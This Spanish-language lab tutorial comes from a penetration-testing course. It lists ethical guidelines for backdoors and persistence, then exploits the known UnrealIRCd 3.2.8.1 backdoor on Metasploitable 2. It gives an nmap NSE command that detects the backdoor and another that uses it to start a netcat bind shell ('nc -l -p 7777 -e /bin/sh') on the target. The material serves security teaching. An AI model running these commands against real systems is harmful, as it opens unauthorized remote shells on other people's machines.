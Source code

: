### Consideraciones Importantes:

- Requisito: Obtener el consentimiento explícito del propietario del sistema antes de utilizar backdoors o herramientas de persistencia.
- Uso Responsable: Limitar el uso de backdoors y herramientas de persistencia a lo estrictamente necesario para los fines de la prueba de penetración.
- Documentación Detallada: Documentar meticulosamente la creación y el uso de backdoors, así como las herramientas de persistencia empleadas.
- Seguimiento Transparente: Comunicar de manera transparente con el cliente o el propietario del sistema sobre las acciones realizadas, incluyendo la implementación de backdoors y herramientas de persistencia.
- Eliminación Responsable: Eliminar todas las backdoors y herramientas de persistencia al finalizar las pruebas de penetración, asegurándose de no dejar puntos de acceso no autorizados.
- Evitar Daño No Autorizado: Evitar causar daño no autorizado al sistema, los datos o la integridad del entorno durante la utilización de backdoors y herramientas de persistencia.
- Es crucial recordar que la implementación de backdoors y herramientas de persistencia debe realizarse con el único propósito de mejorar la seguridad del sistema y ayudar en la mitigación de vulnerabilidades. La conducta ética y la transparencia son fundamentales en todas las etapas de las pruebas de penetración.

## Backdoors deUnrealIRCd y persistencia en Metasploitable 2

UnrealIRCd es un servidor IRC Open Source. En el mes de noviembre del año 2009 el archivo de nombre “Unreal3.2.8.1.tar.gz” fue reemplazado por una versión conteniendo una puerta trasera (troyano). Esta puerta trasera permitía a cualquier persona ejecutar diversos comandos con los privilegios del usuario ejecutando ircd. La puerta trasera era ejecutada sin importar las restricciones del usuario. Para la siguiente práctica se utilizaremos, como siempre, Metasploitable 2 y Kali Linux.

Centramos la atención en el servicio IRC del puerto TCP 6667.

![IRC](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/irc.png?raw=true)

Utilizaremos el Script NSE de nombre “irc-unrealircd-backdoor.nse” incluida en Nmap, el cual permite verificar si este servidor IRC contiene la puerta trasera.

```bash
nmap -n -Pn -p 6667 --script=irc-unrealircd-backdoor.nse 192.168.1.49
```

![script-irc](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/script-irc.png?raw=true)

El argumento de nombre "irc-unrealircd-backdoor.command" del script, puede ser utilizado para ejecutar comandos arbitrarios en el sistema remoto. Debido a la naturaleza de esta vulnerabilidad (El resultado nunca es devuelto) no se tiene manera de obtener la salida del comando.

```bash
nmap -n -Pn -p 6667 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='nc -l -p 7777 -e /bin/sh' 192.168.1.49
```

![backdoor](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/backdoor.png?raw=true)

Desde otra terminal se utiliza la herramienta netcat para establecer una conexión hacia el puerto TCP 7777.
